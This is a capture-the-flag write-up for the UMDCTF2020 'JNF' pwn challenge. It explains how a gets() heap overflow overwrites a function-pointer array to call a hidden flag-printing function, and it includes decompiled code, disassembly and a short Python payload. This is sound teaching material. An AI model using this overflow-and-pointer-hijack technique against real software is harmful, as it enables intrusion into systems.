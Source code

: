 
## JNF
### Description

> We are trying to make a hyper jump to Naboo, but our system doesn't know where Naboo is. Can you help us figure out the issue?
>
> `nc 192.241.138.174 9996` 
>
> Author: `WittsEnd2`


### Attachment

[JNF](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/JNF/JNF)

### Analysis

### Heap overflow

```c
  nptr = malloc(0x42uLL);
  v8 = malloc(0x18uLL);
  *v8 = jumpToHoth;
  v8[1] = jumpToCoruscant;
  v8[2] = jumpToEndor;
// ......
  gets(nptr);
```

From the code, we can see `v8` is an array of function pointer and `nptr` is a buffer.

All of them created by `malloc` and in heap.

![](http://image.taqini.space/img/20200419151918.png)

Function pointer array `v8` will be overwrite with our input after 80 bytes.

### Hidden function

If we call the hidden function `jumpToNaboo` , we can get flag.

```c
int jumpToNaboo(){
  return puts("Jumping to Naboo...\n UMDCTF-{ flag on server             }");
}
```

```nasm
.text:000000000040070A jumpToNaboo     proc near
.text:000000000040070A                 push    rbp
.text:000000000040070B                 mov     rbp, rsp
.text:000000000040070E                 mov     edi, offset aJumpingToNaboo
.text:0000000000400713                 call    _puts
.text:0000000000400718                 nop
.text:0000000000400719                 pop     rbp
.text:000000000040071A                 retn
```

### Solution

Overwrite the first function pointer in array with address of `puts(flag)` in `jumpToNaboo` and call it:

```python
payload = '1' + 'A'*79
payload += p32(0x40070E)
ru('SYSTEM CONSOLE> ')
sl(payload)
```

#### Why 0x40070E?

Because the beginning address of  `jumpToNaboo` is `0x40070A`, and `\x0a` is termination code for `gets()` which causes early termination of our input.


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/JNF) 


